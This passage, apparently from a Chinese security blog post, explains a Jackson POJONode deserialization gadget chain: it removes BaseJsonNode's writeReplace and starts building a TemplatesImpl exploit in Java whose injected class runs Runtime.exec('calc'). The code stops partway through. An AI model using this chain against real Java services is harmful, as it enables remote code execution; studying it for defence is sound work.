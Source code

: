 ### 利用链

我们的`POJONode`​是继承`ValueNode`​的 `ValueNode`​是继承`BaseJsonNode`​的

而在`BaseJsonNode`​中存在

```bash
Object writeReplace() {
        return NodeSerialization.from(this);
    }
```

意味着 我们在反序列化的时候 会经过这个 writeReplace 方法 这个方法会对我们的序列化过程进行检查 从而阻止我们的序列化进程 我们需要将其重写出来 将这个方法去掉

[![](assets/1701606625-0bb28de18917d5838e9f7be64c6a87bc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231114153459-50c62996-82c0-1.png)

这样我们就可以进行序列化进程了

### TemplatesImpl 链

```bash
package tongsha;

import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;


import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.net.URI;
import java.security.*;
import java.util.Base64;

public class TemplatesImplChain {
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        ctClass.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{},ctClass);
        constructor.setBody("Runtime.getRuntime().exec(\"calc\");");
        ctClass.addConstructor(constructor);
        byte[] bytes = ctClass.toBytecode();
        Templates templatesImpl = new TemplatesImpl();
```